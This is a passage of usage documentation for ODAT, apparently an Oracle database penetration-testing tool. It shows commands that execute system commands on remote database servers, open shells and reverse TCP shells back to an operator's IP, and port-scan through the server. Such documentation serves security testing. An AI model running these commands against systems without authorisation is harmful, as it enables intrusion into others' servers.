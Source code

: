 
 *dbmsscheduler* module
---

This module can be used to execute system commands on a remote database server. Useful to get a __reverse tcp shell__.

__Note 1__: It is not possible to:

 ~ get the output of the system command

 ~ to give some special chararacters in arguments to the system command (ex: *>*)

* To get a reverse tcp shell when the remote database server is a Linux:
```bash
./odat.py dbmsscheduler -s $SERVER -d $SID -U $USER -P $PASSWORD --reverse-shell $MY_IP $A_LOCAL_PORT
```
__Note 2__: You don't need to open a listen port manually to have a reverse tcp shell: The module will open the specified port for you.

> I think it is the __most useful__ and __most effective__ module: Many times I have meet Oracle users who can use the Oracle DBMS_SCHEDULER library but not the JAVA. 

 *java* module
---

This module can be used to execute system commands on a remote database server. Useful to get a __shell__ or a __reverse tcp shell__.

* To get a *shell* on the database server:
```bash
./odat.py java -s $SERVER -d $SID -U $USER -P $PASSWORD --shell
```

* To get a reverse tcp shell:
```bash
./odat.py java -s $SERVER -d $SID -U $USER -P $PASSWORD --reverse-shell
```

 *oradbg* module
---

This module can be used to execute system commands on a remote database server:

* To execute the */bin/ls* command:
```bash
./odat.py oradbg -s $SERVER -d $SID -U $USER -P $PASSWORD --exec /bin/ls
```

 *utlhttp* module
---

This module allows you to forge HTTP requests. You can sendand receive HTTP request from the database server.
It can be used to scan ports of a remote server. It is useful to knwon which *localhost* ports are listening for example.

* The *--test-module* option exists on each module and it permits to known if the current Oracle user is allowed to use the module:
```bash
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --test-module
```
